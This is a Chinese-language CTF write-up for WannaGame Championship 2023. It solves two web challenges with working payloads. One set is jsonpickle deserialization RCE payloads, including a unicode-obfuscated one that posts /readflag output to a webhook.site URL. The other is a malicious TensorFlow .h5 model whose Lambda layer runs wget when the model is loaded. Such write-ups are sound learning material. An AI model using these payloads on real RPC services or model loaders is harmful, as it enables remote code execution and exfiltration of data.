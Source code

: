 https://nguyendt.hashnode.dev/wannagame-championship-2023
# web
### Bocchi The RPC Server
一个rpc服务器
rpcpy存在[漏洞](https://github.com/ehtec/rpcpy-exploit/)
但是payload里利用的是pickle,题目中注释掉了
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231206233250.png)


可以使用jsonpickle绕过,记得用linux!!
```python
from typing import Any
import requests

import jsonpickle


class PickleRce(object):
    def __reduce__(self):
        import os
        return os.system, ("whoami",)


# 序列化对象为JSON字符串
json_str=jsonpickle.encode(PickleRce())
print(json_str)

```

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231207000506.png)
然后unicode绕过

---

payload
```json
{
    "name": {
        "py/repr": "binascii/().__class__.__base__.__subclasses__().__getitem__(107).load_module(binascii.unhexlify('6f73').decode()).popen(binascii.unhexlify('2e2e2f72656164666c6167').decode()).read()"
    }
}
```

unicode绕过
```json
{
    "name": {
        "py/reduce": [
            {
                "py/function": "p\u006fsix.s\u0079stem"
            },
            {
                "py/tuple": [
                    "wget https://webhook.site/dfb8094f-ab17-41b5-93fa-e6c353fd4fbd --p\u006fst-data $(/readflag)"
                ]
            }
        ]
    }
}
```


### CountingStars
https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model

一个输入经纬度计算星星数的程序,使用了tensorflow,会加载一个模型`counting_stars.h5`
可以搜索到rce,当加载恶意模型的时候

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("wget https://webhook.site/2f815642-00d7-472d-9507-2af34539836a")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("counting_stars.h5")
```

# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-12-06   22:26